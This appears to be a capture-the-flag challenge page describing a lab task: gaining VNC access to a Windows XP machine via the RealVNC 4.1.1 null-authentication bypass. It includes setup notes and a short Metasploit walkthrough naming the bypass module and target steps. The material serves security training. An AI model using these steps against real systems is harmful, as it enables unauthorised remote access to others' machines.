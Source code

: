 Fun with XP
============

Goal
----
* Attacker gains VNC access to a Windows XP machine by the NULL auth bug in realvnc 4.1.1

Description
-----------
Here's your IP: 10.75.10.3. Get the token. (Remember to connect to the VPN, more info on the [category-page](http://<hostname>/categories/53502359703ae48b5a00002b).)

How to make
-----------
* Windows XP (SP3)
* Attached realvnc installer
* Make a text document

How to exploit
---------------
* There are multiple ways of solving this. Example:
* Use metasploit:
** msfconsole
** use auxiliary/admin/vnc/realvnc\_41\_bypass
** set RHOST 10.75.10.3
** run
** Connect to localhost

